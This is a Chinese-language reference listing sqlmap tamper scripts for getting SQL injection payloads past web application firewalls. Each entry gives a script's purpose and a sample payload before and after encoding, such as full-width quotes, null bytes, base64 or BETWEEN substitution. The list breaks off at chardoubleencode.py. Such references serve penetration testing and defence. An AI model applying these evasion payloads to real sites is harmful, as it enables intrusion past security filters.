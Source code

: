 #SQLMAP Tamper Summary  

###0x01 简介  
sqlmap中的tamper脚本来对目标进行更高效的攻击。当目标主机有WAF进行过滤的时候，可以使用tamper来进行绕过；本文介绍了SQLMAP中自带的Tamper脚本，特定场合也需要自己写脚本。  

###0x02 正文  

> 脚本名：apostrophemask.py  

作用：用UTF-8全角字符替换单引号字符  
Example：
	
	（"1 AND '1'='1"）
	'1 AND %EF%BC%871%EF%BC%87=%EF%BC%871' 
	

> 脚本名：apostrophenullencode.py  

作用：绕过过滤双引号，替换字符和双引号  
Example：  
	
	tamper("1 AND '1'='1")
	'1 AND %00%271%00%27=%00%271'


> 脚本名：appendnullbyte.py

作用：在payload末尾添加空字符编码    
Example：

	('1 AND 1=1')
	'1 AND 1=1%00'


> 脚本名：base64encode.py  

作用：对给定的payload全部字符使用Base64编码    
Example：

	("1' AND SLEEP(5)#")
	'MScgQU5EIFNMRUVQKDUpIw=='


> 脚本名：between.py  

作用：分别用“NOT BETWEEN 0 AND #”替换大于号“>”，“BETWEEN # AND #”替换等于号“=”    
Example：
	
	('1 AND A > B--')
	'1 AND A NOT BETWEEN 0 AND B--'


> 脚本名：bluecoat.py  

作用：在SQL语句之后用有效的随机空白符替换空格符，随后用“LIKE”替换等于号“=”    
Example：

	('SELECT id FROM users where id = 1')
	'SELECT%09id FROM users where id LIKE 1'


> 脚本名：chardoubleencode.py   

作用：对给定的payload全部字符使用双重URL编码（不处理已经编码的字符）    
Example：
